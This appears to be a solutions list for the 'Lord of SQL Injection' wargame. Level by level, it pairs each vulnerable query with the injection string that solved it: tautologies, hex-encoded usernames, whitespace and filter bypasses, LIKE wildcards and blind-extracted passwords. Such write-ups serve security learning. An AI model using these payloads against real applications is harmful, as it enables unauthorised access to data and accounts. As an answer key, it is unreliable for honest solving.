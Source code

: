 # Lord-of-Sql-injection

gremlin
prob : select id from prob_gremlin where id='' and pw=''
solve : ?id=' or 1=1%23

cobolt
prob : select id from prob_cobolt where id='' and pw=md5('')
solve : ?id=' or id='admin'%23

goblin
prob : select id from prob_goblin where id='guest' and no=
solve : ?no=' or id=0x61646d696e

orc(blind)
prob : select id from prob_orc where id='admin' and pw=''
solve : ?pw=095a9852

wolfman
prob : select id from prob_wolfman where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

darkelf
prob : select id from prob_darkelf where id='guest' and pw=''
solve : ?pw=%27||id=0x61646d696e%23

orge(blind)
prob : select id from prob_orge where id='guest' and pw=''
solve : ?pw=7b751aec

troll
prob : select id from prob_troll where id='ADmin'
solve : ?pw=AdMin

vampire
prob : select id from prob_vampire where id=''
solve : ?id=adadminmin

skeleton
prob : select id from prob_skeleton where id='guest' and pw='' and 1=0
solve : ?pw=' or id='admin'%23

golem(blind)
prob : select id from prob_golem where id='guest' and pw=''
solve : ?pw=77d6290b

darknight(blind)
prob : select id from prob_darkknight where id='guest' and pw='' and no=
solve : ?pw=0b70ea1f

bugbear(blind)
prob : select id from prob_bugbear where id='guest' and pw='' and no=
solve : ?pw=52dc3991

giant
prob : select 1234 from{$_GET[shit]}prob_giant where 1
solve : ?shit=%0b,?shit=%0c

assasin 
prob : select id from prob_assassin where pw like ''
solve : ?pw=%E%D%
memo : a% , %a , %a%

zombie_assassin
prob : select id from prob_zombie_assassin where id='' and pw=''
solve : pass
memo : %bf' or 1=1--%20 -> %20--1=1 ro '%bf

succubus(pass)
nightmare(pass)

xavis(blind)
prob : select id from prob_xavis where id='admin' and pw=''
solve : ?pw=우왕굳
memo : 한글 ascii